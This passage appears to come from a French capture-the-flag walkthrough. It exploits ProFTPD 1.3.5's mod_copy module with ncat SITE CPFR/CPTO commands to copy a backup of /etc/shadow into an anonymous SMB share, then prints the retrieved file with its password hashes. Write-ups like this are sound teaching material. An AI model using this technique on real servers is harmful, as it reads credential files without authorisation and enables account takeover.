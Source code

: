 Cette version a un module `mod_copy` qui permet de copier un fichier du serveur vers un autre emplacement local et visiblement sans grandes vérifications.

Je vais donc copier la sauvegarde du fichier `shadow` vers le path exposé par le SMB :

```bash
$ ncat 192.168.56.113 21 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.113:21.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.56.113]
site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/yolo.txt
250 Copy successful
QUIT
221 Goodbye.
```

Je peux alors récupérer le fichier via `smbclient` comme précédemment (`smbclient -U "" -N //192.168.56.113/anonymous`). Voici son contenu :

```
root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
daemon:*:18095:0:99999:7:::
bin:*:18095:0:99999:7:::
sys:*:18095:0:99999:7:::
sync:*:18095:0:99999:7:::
games:*:18095:0:99999:7:::
man:*:18095:0:99999:7:::
lp:*:18095:0:99999:7:::
mail:*:18095:0:99999:7:::
news:*:18095:0:99999:7:::
uucp:*:18095:0:99999:7:::
proxy:*:18095:0:99999:7:::
www-data:*:18095:0:99999:7:::
backup:*:18095:0:99999:7:::
list:*:18095:0:99999:7:::
irc:*:18095:0:99999:7:::
gnats:*:18095:0:99999:7:::
nobody:*:18095:0:99999:7:::
systemd-timesync:*:18095:0:99999:7:::
systemd-network:*:18095:0:99999:7:::
systemd-resolve:*:18095:0:99999:7:::
systemd-bus-proxy:*:18095:0:99999:7:::
_apt:*:18095:0:99999:7:::
Debian-exim:!:18095:0:99999:7:::
messagebus:*:18095:0:99999:7:::
sshd:*:18095:0:99999:7:::
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
mysql:!:18095:0:99999:7:::
Debian-snmp:!:18095:0:99999:7:::
librenms:!:18095::::::
```
